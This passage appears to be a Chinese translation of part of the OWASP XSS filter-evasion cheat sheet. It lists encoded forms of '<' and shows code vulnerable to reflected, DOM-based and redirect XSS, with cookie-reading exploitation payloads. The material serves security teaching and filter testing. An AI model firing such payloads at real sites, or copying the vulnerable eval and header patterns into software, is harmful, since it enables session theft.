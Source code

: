 - `<`
- `<`
- `<`
- `<`
- `<`
- `<`
- `<`
- `<`
- `<`
- `\x3c`
- `\x3C`
- `\u003c`
- `\u003C`

## 绕过 WAF 的方法 - 跨站点脚本[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#methods-to-bypass-waf-cross-site-scripting)

### 一般问题[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#general-issues)

#### 存储型 XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#stored-xss)

如果攻击者设法通过过滤器推动 XSS，WAF 将无法阻止攻击传导。

#### JavaScript 中的反射型 XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#reflected-xss-in-javascript)

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

#### 基于 DOM 的 XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#dom-based-xss)

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

#### XSS 通过请求重定向[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-via-request-redirection)

- 易受攻击的代码：

```
...
header('Location: '.$_GET['param']);
...
```
